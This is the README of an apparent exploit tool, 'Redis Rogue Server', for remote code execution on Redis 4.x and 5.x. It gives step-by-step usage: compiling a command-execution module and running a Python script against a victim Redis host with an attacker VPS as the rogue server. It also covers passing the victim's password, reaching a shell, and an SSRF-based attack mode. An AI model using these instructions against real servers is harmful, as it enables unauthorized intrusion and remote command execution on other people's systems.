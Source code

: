# Redis Rogue Server

A exploit for Redis 4.x/Redis 5.x RCE, inspired by [Redis post-exploitation](https://2018.zeronights.ru/wp-content/uploads/materials/15-redis-post-exploitation.pdf).

Also works for Redis 5.0.8.

## Usage:

Compile .so from <https://github.com/n0b0dyCN/RedisModules-ExecuteCommand>.

Copy the .so file to same folder with `redis-rogue-server.py`.

### Attack scenario 1 - redis unauthorized access/redis password known by attackers

Run the rogue server, which will connect to the victim redis server to launch an attack

```
python3 redis-rogue-server.py --rhost <target address> --rport <target port> --lhost <vps address> --lport <vps port>
```

Usage:

- `--rpasswd` if the victim redis service has authentication enabled, you can specify the password through this option
- `--rhost` IP of the victim redis service
- `--rport` port number of the victim redis service , default is 6379
- `--lhost` external IP address of your VPS
- `--lport` the port number of the rogue server, default is 21000

Run this command, and you will get an interactive shell!

### Attack scenario 2 - using SSRF to attack redis

You can use `--server-only` for SSRF cases.

```bash
python3 redis-rogue-server.py --server-only
```

Usage:

- `--server-only` only start the redis rogue server, do not actively connect to the victim redis server
